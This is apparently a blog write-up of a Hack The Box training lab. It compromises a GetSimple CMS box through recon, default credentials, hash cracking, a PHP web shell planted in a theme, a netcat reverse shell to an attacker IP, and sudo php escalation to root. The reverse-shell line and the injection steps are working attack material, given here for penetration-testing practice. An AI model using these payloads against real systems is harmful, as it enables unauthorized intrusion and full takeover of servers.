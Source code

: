 +++
title = "HTB-Init-test-skills"
date = "2025-02-16T09:12:30-06:00"
#dateFormat = "2006-01-02" # This value can be configured for per-post date formatting
author = "corrupter"
authors = ["corrupter"]
authorTwitter = "" #do not include @
cover = ""
tags = ["Writeup", "Pentesting", "Revshells"]
keywords = ["", ""]
description = ""
showFullContent = false
hideComments = true 
+++

# Module Getting Started: Knowledge check

We get an IP adress target `$TARGET` which we have to pwn.

First, we make a simple nmap scan to get open services, versions and ports:

```sh
nmap -sV --open -oA start-skills-init-recon $TARGET
```

We get two services:

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The second seems to be a web server, running a page as the port is 80, for http. We run
a scan with `whatweb`:

```sh
$ whatweb $TARGET
http://$TARGET [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[$TARGET]
```

We get not many info, so heading to the page with a browser, we see the server
uses GetSimple CMS. `searchsploit` gives us some interesting information for vulnerabilities:

```sh
$ searchsploit GetSimple
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Getsimple CMS 2.01 - 'changedata.php' Cross-Site Scripting                         | php/webapps/34789.html
Getsimple CMS 2.01 - 'components.php' Cross-Site Scripting                         | php/webapps/34041.txt
Getsimple CMS 2.01 - Local File Inclusion                                          | php/webapps/12517.txt
Getsimple CMS 2.01 - Multiple Vulnerabilities                                      | php/webapps/14338.html
Getsimple CMS 2.01 < 2.02 - Administrative Credentials Disclosure                  | php/webapps/15605.txt
Getsimple CMS 2.03 - 'upload-ajax.php' Arbitrary File Upload                       | php/webapps/35353.txt
Getsimple CMS 3.0 - 'set' Local File Inclusion                                     | php/webapps/35726.py
Getsimple CMS 3.1.2 - 'path' Local File Inclusion                                  | php/webapps/37587.txt
Getsimple CMS 3.2.1 - Arbitrary File Upload                                        | php/webapps/25405.txt
GetSimple CMS 3.3.1 - Cross-Site Scripting                                         | php/webapps/43888.txt
Getsimple CMS 3.3.1 - Persistent Cross-Site Scripting                              | php/webapps/32502.txt
Getsimple CMS 3.3.10 - Arbitrary File Upload                                       | php/webapps/40008.txt
GetSimple CMS 3.3.13 - Cross-Site Scripting                                        | php/webapps/44408.txt
GetSimple CMS 3.3.16 - Persistent Cross-Site Scripting                             | php/webapps/49726.py
GetSimple CMS 3.3.16 - Persistent Cross-Site Scripting (Authenticated)             | php/webapps/48850.txt
GetSimple CMS 3.3.4 - Information Disclosure                                       | php/webapps/49928.py
GetSimple CMS Custom JS 0.1 - Cross-Site Request Forgery                           | php/webapps/49816.py
Getsimple CMS Items Manager Plugin - 'PHP.php' Arbitrary File Upload               | php/webapps/37472.php
GetSimple CMS My SMTP Contact Plugin 1.1.1 - Cross-Site Request Forgery            | php/webapps/49774.py
GetSimple CMS My SMTP Contact Plugin 1.1.2 - Persistent Cross-Site Scripting       | php/webapps/49798.py
GetSimple CMS Plugin Multi User 1.8.2 - Cross-Site Request Forgery (Add Admin)     | php/webapps/48745.txt
GetSimple CMS v3.3.16 - Remote Code Execution (RCE)                                | php/webapps/51475.py
GetSimpleCMS - Unauthenticated Remote Code Execution (Metasploit)                  | php/remote/46880.rb
----------------------------------------------------------------------------------- ---------------------------------
```

Seems like we can upload or run arbitrary code. Meanwhile, `gobuster` gives us useful paths to
explore:

```sh
$ gobuster dir -u http://$TARGET -w /usr/share/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://$TARGET
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/admin                (Status: 301) [Size: 314] [--> http://$TARGET/admin/]
/backups              (Status: 301) [Size: 316] [--> http://$TARGET/backups/]
/data                 (Status: 301) [Size: 313] [--> http://$TARGET/data/]
/index.php            (Status: 200) [Size: 5485]
/plugins              (Status: 301) [Size: 316] [--> http://$TARGET/plugins/]
/robots.txt           (Status: 200) [Size: 32]
/server-status        (Status: 403) [Size: 278]
/sitemap.xml          (Status: 200) [Size: 431]
/theme                (Status: 301) [Size: 314] [--> http://$TARGET/theme/]
Progress: 4734 / 4735 (99.98%)
===============================================================
Finished
===============================================================
```

The paths `/admin` and `/data` seem promising, so we explore them. The former gives us a
login page. Trying default passwords like `admin:admin` actually works, but alternatively
we could have searched the later directory and see that in the `/users` subdirectory resides
an `admin.xml` file with the following content:

```xml
<item>
<USR>admin</USR>
<NAME/>
<PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD>
<EMAIL>admin@gettingstarted.com</EMAIL>
<HTMLEDITOR>1</HTMLEDITOR>
<TIMEZONE/>
<LANG>en_US</LANG>
</item>
```

We see a hash, which `john` can easily crack and thus, obtaining the same credentials

```sh
$ john --wordlist=/usr/share/wordlists/rockyou.txt admin-xml-hash
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "has-160"
Use the "--format=has-160" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
admin            (?)
1g 0:00:00:00 DONE (2024-12-25 13:26) 50.00g/s 991200p/s 991200c/s 991200C/s alcala..LOVE1
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed.
```

When logging, we see many components in the admin pannel. Our interest is,
initially, the `upload.php` as `searchsploit` indicated a file upload
vulnerability, but the upload button seemed to be disabled. Searching around we
see that we can edit the theme code in the `themes.php` component. Using a
simple script like `<?php system('id'); ?>` works when reloading the page (note
that the edited theme must be enabled). We can then use a revshell like:

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ATTCK_MACHINE_IP] [PORT] >/tmp/f") ?>
```

> [!IMPORTANT]
> You might save a copy of the original php template as this might disrupt the server.

Make sure to substitute `ATTCK_MACHINE_IP` by your machine IP through a VPN and
`PORT` by a choice port.

We listen with netcat at the port specified in the payload with `nc -lvnp PORT`
and see that, on page reload, the connection is stabilshed. There we can go to
the directory `/home/mrb3n` to get the `user.txt` flag.

To escalate privileges we explore binaries. Running `sudo -l` we see that a php
binary can be used with root privileges without password by all users:

```sh
$ sudo -l
Matching Defaults entries for www-data on gettingstarted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php

$ ls -l /usr/bin/php
lrwxrwxrwx 1 root root 21 Feb  9  2021 /usr/bin/php -> /etc/alternatives/php
```

A quick search in GTFObins tells us we can escalate to root as follows:

```sh
$ CMD="/bin/sh"
$ sudo php -r "system('$CMD');"
```

With this, we can get the last flag `root.txt` at the `/root/` directory.

We then successfully pwned the box.
